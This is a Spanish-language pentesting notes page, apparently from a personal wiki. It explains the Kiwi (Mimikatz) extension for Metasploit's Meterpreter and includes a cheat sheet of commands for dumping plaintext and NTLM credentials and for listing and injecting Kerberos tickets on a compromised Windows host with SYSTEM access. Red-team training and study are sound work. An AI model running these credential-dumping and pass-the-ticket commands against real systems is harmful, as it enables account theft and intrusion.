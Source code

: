 
# 🐥 Kiwi - Mimikatz embebido en Meterpreter

**Kiwi** es una extensión de Meterpreter que permite utilizar funcionalidades de [Mimikatz](mimikatz.md) directamente desde una sesión de **Metasploit**, sin necesidad de subir binarios ni ejecutar herramientas externas.

---

## 🎯 ¿Qué permite hacer?

Una vez cargada la extensión, te brinda comandos similares a los de Mimikatz para:

- Extraer credenciales (plaintext, NTLM, LM, SHA1)
- Volcar credenciales de sistemas Kerberos
- Inyectar tickets Kerberos
- Enumerar sesiones y usuarios conectados
- Elevar privilegios o duplicar tokens

---

## 🚀 ¿Cómo se usa?

1. **Desde una sesión de `meterpreter`:**

```bash
meterpreter > load kiwi
````

2. **Extraer todas las credenciales (como en la imagen):**
    

```bash
meterpreter > creds_all
```

3. **Listar usuarios conectados:**
    

```bash
meterpreter > kiwi_cmd sekurlsa::logonpasswords
```

---

## 📌 Comandos útiles

|Comando|Descripción|
|---|---|
|`load kiwi`|Carga la extensión|
|`creds_all`|Extrae credenciales de todas las fuentes|
|`kiwi_cmd sekurlsa::logonpasswords`|Ejecuta Mimikatz desde Meterpreter|
|`kiwi_cmd kerberos::list`|Lista tickets Kerberos|
|`kiwi_cmd kerberos::ptt`|Inyecta tickets|
|`kiwi_cmd sekurlsa::tickets`|Muestra tickets activos|

---

## 🔐 Requisitos

- Acceso como **Administrador** o **SYSTEM**
    
- Tener una sesión **Meterpreter activa** (ideal: `windows/x64/meterpreter/reverse_tcp`)
    

---

> 🛑 **Nota legal:** El uso de Kiwi está limitado a entornos controlados con consentimiento explícito. Utilizarlo sin autorización es ilegal.

[[herramientas]]